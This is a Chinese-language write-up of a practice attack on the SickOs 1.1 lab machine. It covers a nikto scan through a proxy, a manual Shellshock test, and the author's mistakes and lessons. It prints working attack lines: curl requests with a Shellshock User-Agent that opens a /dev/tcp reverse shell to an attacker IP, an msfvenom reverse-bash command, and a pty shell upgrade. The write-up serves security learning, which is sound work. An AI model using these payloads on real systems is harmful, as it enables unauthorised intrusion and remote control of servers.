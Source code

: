 # SickOs1.1--shellshock

[TOC]

## nikto扫描

```
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo nikto -h 192.168.50.128 -useproxy http://192.168.50.128:3128

```

![image-20240609053855646](./assets/image-20240609053855646.png)

## Shellshock手工验证

```shell
sudo curl -v --proxy http://192.168.50.128:3128 http://192.168.50.128/cgi-bin/status -H "User-Agent:() { :;}; echo 'Content-Type: text/plain'; echo; echo shel_hello" 
```

![image-20240609090858709](./assets/image-20240609090858709.png)

## 利用

```shell
sudo msfvenom -p cmd/unix/reverse_bash lhost=192.168.50.129 lport=5050 -f raw
```

![image-20240609094008405](./assets/image-20240609094008405.png)

```shell
0<&113-;exec 113<>/dev/tcp/192.168.50.129/5050;sh <&113 >&113 2>&113
```

### 犯的错误

* 写错了回链地址，检查了好一会，真实场景务必警惕

![image-20240609094008405](./assets/image-20240609094008405.png)

## 构造攻击命令

猜猜我为什不写5050

```
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo curl -v --proxy http://192.168.50.128:3128 http://192.168.50.128/cgi-bin/status -H "User-Agent:() { :;}; echo 'Content-Type: text/plain'; echo; 0<&113-;exec 113<>/dev/tcp/192.168.50.129/4040;/bin/sh <&113 >&113 2>&113" 
```

![image-20240609095447703](./assets/image-20240609095447703.png)

![image-20240609095405309](./assets/image-20240609095405309.png)

### 犯的错误

* 一开始将端口写成5050，忘记了之前渗透时python计划任务回连的端口写的就是5050

* sh没有写全路径，导致sh找不到

  ```
  sudo curl -v --proxy http://192.168.50.128:3128 http://192.168.50.128/cgi-bin/status -H "User-Agent:() { :;}; echo 'Content-Type: text/plain'; echo; 0<&113-;exec 113<>/dev/tcp/192.168.50.129/4040;sh <&113 >&113 2>&113" 
  ```

  

  ![image-20240609095011771](./assets/image-20240609095011771.png)

## 提升体验

dpkg -l发现系统安装了python，因此可以利用python获得一个交互更加舒适的shell。

```
python -c "import pty;pty.spawn('/bin/bash')"
```

![image-20240609100616960](./assets/image-20240609100616960.png)

## 后续提权

此处略，参考<<SickOs1.1靶场记录>>



## 收获

1. nikto使用
2. 了解shellshock漏洞原理，以及利用
3. 了解cgi的概念
4. 学会msfvenom生成linux反向shell
5. 学会使用python提升反向shell交互醒

